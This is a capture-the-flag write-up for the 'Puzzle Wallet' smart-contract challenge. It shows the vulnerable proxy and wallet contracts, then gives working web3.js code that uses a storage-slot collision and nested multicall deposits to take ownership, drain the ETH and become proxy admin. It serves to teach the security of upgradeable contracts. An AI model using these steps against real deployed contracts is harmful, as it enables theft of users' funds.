 # 24. Puzzle Wallet

Nowadays, paying for DeFi operations is impossible, fact.

A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.

They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.

Little did they know, their lunch money was at risk…

  You'll need to hijack this wallet to become the admin of the proxy.


## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
pragma experimental ABIEncoderV2;

import "@openzeppelin/contracts/math/SafeMath.sol";
import "@openzeppelin/contracts/proxy/UpgradeableProxy.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) public {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    using SafeMath for uint256;
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] = balances[msg.sender].add(msg.value);
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] = balances[msg.sender].sub(value);
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

## Vulnerability

Delegate calls must be handled with care, as the contract making use of this trust the callee to do anything it wants with its storage.
Basically, when we make a call to the proxy, it will be delegated to the implementation. This delegation means that the code of the implementation will run in the context of the proxy.

### Taking ownership of the wallet

We can see that the wallet stores its `owner` variable in slot 0. However, in the context of the proxy slot 0 is used for the variable `pendingAdmin` which can be modified without restrictions by calling `proposeNewAdmin`, effectively modifying the owner for the code of PuzzleWallet.


```js
const accounts = await web3.eth.getAccounts();

// Encodes a call to proposeNewAdmin (belonging to the proxy)
const callData = web3.eth.abi.encodeFunctionCall({name: "proposeNewAdmin", type:'function', inputs:[{type:'address', name:'_newAdmin'}]}, [accounts[0]]);

// Send the tx to the proxy to overwrite slot 0 with our own address
await web3.eth.sendTransaction({to: contract.address, from: accounts[0], data: callData});
```

From now on we are considered as owner of the wallet. We can whitelist ourself :

```js
await contract.addToWhitelist(accounts[0]);
```

We now have full access to the Wallet functionalities as we are both owner and whitelisted. 

### Taking ownership of the proxy

In order to take ownership of the proxy we need to rewrite slot 1 from the Wallet. This slot hold the variable `maxBalance` which we cannot modify directly as :

```solidity
    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }
```

Will fail since maxBalance is already non 0.

```solidity
  function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }
```
Could work if we manage to drain all the funds of the proxy contract.

```js
await web3.eth.getBalance(contract.address);
// '1000000000000000000' or 1 ETH
```

**It took me a long time to figure out that I was going the wrong way...** the vulnerability to exploit is that the `multicall` function is not protected against reentrency.
So we can make a call to multicall that will deposit and call multicall again to deposit one more time and so on, all of that with a single tx, effectively reusing `msg.value`.

So let's first generate a call to deposit :

```js
const depositCall = web3.eth.abi.encodeFunctionCall({name: "deposit", type:'function', inputs:[]}, []);
```

Now let's generate a multicall that calls deposit :

```js
const innerMulticall = web3.eth.abi.encodeFunctionCall({name: 'multicall', type:'function', inputs:[{type:'bytes[]', name:'data'}]}, [[depositCall]]);
```

Finally, we generate a call that calls deposit followed by `innerMultiCall` (a call to multicall that calls deposit) :

```js
const outerMulticall = web3.eth.abi.encodeFunctionCall({name: 'multicall', type:'function', inputs:[{type:'bytes[]', name:'data'}]}, [[depositCall, innerMulticall]])
```

We can send those nested calls through a simple tx. Remember that the contract currently holds 1 ETH and we are planning on making 2 calls to deposit, thus reusing `msg.value` once. Our `msg.value` will be counted twice, and we want that `2 * msg.value` to equal to balance of the contract, therefore, we must send 1 ETH. (If we were making 4 nested calls to deposit we could send only 0.5 ETH).

```js
await web3.eth.sendTransaction({from: accounts[0], to: contract.address, data:outerMulticall, value: web3.utils.toWei("1", "ether")})
```

We can check that our balance is actually twice what we deposited :

```js
(await contract.balances(accounts[0])).toString();
// '2000000000000000000' or 2 ETH
```

It is also matching the balance of the proxy contract :

```js
await web3.eth.getBalance(contract.address);
// '2000000000000000000' or 2 ETH
```

So we can now spend that money, and we will be able to rewrite `maxBalance`.

```js
const balance = await contract.balances(accounts[0]);

// Send the 2 ETH back to ourself
await contract.execute(accounts[0], balance, []);
```

The proxy contract should now have a balance of 0 :

```js
await web3.eth.getBalance(contract.address);
// '0'
```

Finally, we can overwrite `maxBalance` to our address. As `maxBalance` is bound to storage slot 1, which is also the slot of `admin` for the proxy contract we will become admin of the proxy.

```js
await contract.setMaxBalance(accounts[0]);
```

Just to make sure, let's read storage slot 1 of the proxy contract:

```js
await web3.eth.getStorageAt(contract.address, 1);
// '0x000000000000000000000000YOUR-ADDRESS-IS-HERE'
```

You can now submit the challenge !